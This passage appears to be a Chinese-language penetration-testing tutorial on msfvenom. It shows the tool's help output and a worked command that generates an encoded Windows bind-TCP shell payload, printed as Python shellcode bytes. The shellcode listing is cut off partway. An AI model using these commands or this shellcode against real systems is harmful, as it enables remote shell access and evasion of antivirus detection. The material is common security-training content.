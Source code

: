 ```

#### MSFVENOM

```msfvenom```是```msfpayload```和```msfencode```的一种结合型工具，它把两者的功能融合在一个框架中。```msfvenom``` 有很多功能选项：
```
root@kali:~# msfvenom -h
Error: MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] 

Options:
    -p, --payload            Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled             Prepend a nopsled of [length] size on to the payload
    -f, --format              Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder            The encoder to use
    -a, --arch                  The architecture to use
        --platform          The platform of the payload
        --help-platforms             List available platforms
    -s, --space               The maximum size of the resulting payload
        --encoder-space       The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars             The list of characters to avoid example: '\x00\xff'
    -i, --iterations           The number of times to encode the payload
    -c, --add-code              Specify an additional win32 shellcode file to include
    -x, --template              Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out                   Save the payload
    -v, --var-name              Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
```

一个示例：使用msfvenom 生成x86架构windows平台下，payload为windows/shell/bind_tcp 编码器为 x86/shikata_ga_nai 坏字符为NULL，编码轮数3轮，输出格式为python的shellcode。
```
root@kali:~# msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai succeeded with size 353 (iteration=1)
x86/shikata_ga_nai succeeded with size 380 (iteration=2)
x86/shikata_ga_nai chosen with final size 380
Payload size: 380 bytes
buf = ""
buf += "\xbb\x78\xd0\x11\xe9\xda\xd8\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x59\x31\x58\x13\x83\xc0\x04\x03\x58\x77\x32"
buf += "\xe4\x53\x15\x11\xea\xff\xc0\x91\x2c\x8b\xd6\xe9\x94"
buf += "\x47\xdf\xa3\x79\x2b\x1c\xc7\x4c\x78\xb2\xcb\xfd\x6e"
buf += "\xc2\x9d\x53\x59\xa6\x37\xc3\x57\x11\xc8\x77\x77\x9e"
buf += "\x6d\xfc\x58\xba\x82\xf9\xc0\x9a\x35\x72\x7d\x01\x9b"
buf += "\xe7\x31\x16\x82\xf6\xe2\x89\x89\x75\x67\xf7\xaa\xae"
buf += "\x73\x88\x3f\xf5\x6d\x3d\x9e\xab\x06\xda\xff\x42\x7a"
buf += "\x63\x6b\x72\x59\xf6\x58\xa5\xfe\x3f\x0b\x41\xa0\xf2"
buf += "\xfe\x2d\xc9\x32\x3d\xd4\x51\xf7\xa7\x56\xf8\x69\x08"
buf += "\x4d\x27\x8a\x2e\x19\x99\x7c\xfc\x63\xfa\x5c\xd5\xa8"
buf += "\x1f\xa8\x9b\x88\xbb\xa5\x3c\x8f\x7f\x38\x45\xd1\x71"
buf += "\x34\x59\x84\xb0\x97\xa0\x99\xcc\xfe\x7f\x37\xe2\x28"
buf += "\xea\x57\x01\xcf\xf8\x1e\x1e\xd8\xd3\x05\x67\x73\xf9"
buf += "\x32\xbb\x76\x8c\x7c\x2f\xf6\x29\x0f\xa5\x36\x2e\x73"
buf += "\xde\x31\xc3\xfe\xae\x49\x64\xd2\x39\xf1\xf2\xc7\xa0"